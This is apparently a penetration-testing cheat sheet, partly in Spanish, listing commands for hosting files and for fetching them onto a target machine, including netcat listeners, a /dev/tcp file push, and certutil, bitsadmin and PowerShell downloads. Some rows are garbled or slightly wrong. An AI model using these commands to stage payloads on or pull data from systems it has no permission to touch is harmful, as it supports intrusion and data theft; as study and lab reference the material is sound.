 ### Alojando archivo

| Comando                                                                                                                                   | Descripción                                                                                                            |
| ----------------------------------------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| python -m SimpleHTTPServer [PORT] python3 -m http.server [PORT]                                                                           | Python HTTP Server modules                                                                                             |
| service apache2 start; systemctl start apache2;                                                                                           | Apache web server, requires to place files in the /var/www/html/ directory                                             |
| service nginx start; systemctl start nginx                                                                                                | Nginx web server, requires to place files in or /usr/share/nginx/html or /var/www/html                                 |
| php -S 0.0.0.0:PORT                                                                                                                       | PHP builtin web server bundle                                                                                          |
| nc -q 0 -lvp 443 < file                                                                                                                   | Netcat listener to transfer files                                                                                      |
| cat < archivo > /dev/tcp/<IP>/<PORT>                                                                                                      | Send this file to the target, with our <ip> and <port>, the listener must waiting with this: nc -lvnp <port> > archivo |
| nc -nv IP_ADDR 443 < file                                                                                                                 | Netcat command to send files                                                                                           |
| smbserver.py SHARE share_dir                                                                                                              | Impacket’s smbserver.py script simulates a SMB server                                                                  |
| service smbd start; systemctl start smbd                                                                                                  | Linux Samba, a share has to be added to /etc/samba/smb.conf                                                            |
| service pure-ftpd start; systemctl start pure-ftpd; service proftpd start; systemctl start proftpd                                        | Services such as pure-ftpd and proftpd can be used to setup FTP servers                                                |
| atftpd –daemon –port 69 ftp_dir                                                                                                           | The atftpd utility allows to easily setup a TFTP server                                                                |
| ruby -rwebrick -e’WEBrick::HTTPServer.new(:Port => PORT, :DocumentRoot => Dir.pwd).start’                                                 | Ruby web server using the Web brick library                                                                            |
| ruby -run -e httpd . -p [PORT]                                                                                                            | Ruby simple http server                                                                                                |
| cpan HTTP::Server::Brick; perl -MHTTP::Server::Brick -e ‘$s=HTTP::Server::Brick->new(port=>PORT); $s->mount(“/”=>{path=>”.”}); $s->start’ | Perl Brick HTTP Server                                                                                                 |
| “C:\Program Files (x86)\IIS Express\iisexpress.exe” /path:C: /port:PORT                                                                   | Microsoftg IIS Express                                                                                                 |
| base64 file;                                                                                                                              | Encoding the the file using base 64 and decoding it in the target machine                                              |

---

### Descargar el archivo

|Comando|Descripción|
|---|---|
|wget http://ip-addr:port/file [-o output_file]|Wget comes preinstalled with most Linux systems|
|curl http://ip-addr:port/file -o output_file|Curl comes preinstalled with most Linux and some Windows systems|
|certutil -f-urlcache -split http://ip-addr:port/file output_file|Certutil is a Windows builtin command line tool|
|powershell -c Invoke-WebRequest -Uri http://ip-addr:port/file -OutFile output_file; powershell -c (New-Object Net.WebClient).DownloadFile(‘http://ip-addr:port/file’, ‘output_file’)|Powershell Invoke-WebRequest cmdlet or the System.Net.WebClient class|
|||
|bitsadmin /transfer job /download /priority high http://IP_ADDR/file output_file|Bitsadmin Windows command-line tool|
|nc -nv IP_ADDR 443 > file|Netcat command to download files from a Netcat listener|
|nc -q 0-lvp 443 > file|Netcat listener to receive files|
|copy \IP_ADDR\SHARE\output_file|Copy command to download files from an SMB share|
|smbget smb://domain;user[:password@]server/share/path/file|smbget utility to download files from a Samba share|
|Wget wget [ftp://user](ftp://user/):password@IP_ADDR/path/file -o output_file FTP echo open 192.168.1.64 21> ftp.txt echo anonymous>> ftp.txt echo [ftp@ftp.com](mailto:ftp@ftp.com)>> ftp.txt echo bin >> ftp.txt echo get test.txt >> ftp.txt echo bye >> ftp.txt ftp -s:ftp.txt|Wget and FTP to download files from an FTP server|
|tftp|tftp -i IP_ADDR {GET \| PUT} file|
|scp /path/file username@IP_ADDR:/path/file|Secure File Copy SSH tool|
|[https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c](https://gist.github.com/Richienb/51021a1c16995a07478dfa20a6db725c)|Windows Virtual Basic scripts|
|php -r “file_put_contents(‘output_file’, fopen(‘http://ip-addr:port/file’, ‘r’));”|PHP file_put_contents function|
|python -c ‘from urllib import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’; python3 -c ‘from urllib.request import urlretrieve; urlretrieve(“http://ip-addr:port/file”, “output_file”)’|The Python urlretrieve function which is part of the urllib library can be used to download files|
|perl -MLWP::Simple -e ‘getstore(“http://IP_ADDR/file”, “out_file”)’; perl -e ‘use LWP::Simple; getstore(“http://IP_ADDR/file”, “out_file”)’|Library for WWW in Perl|
|ruby -e ‘require “open-uri”;File.open(“output_file”, “wb”) do \|file\|;URI.open(“http://ip-addr:port/file”).read;end’|Ruby Open-URI library|
|echo -n “base64-output” > file|Decoding the base64 output of the file|
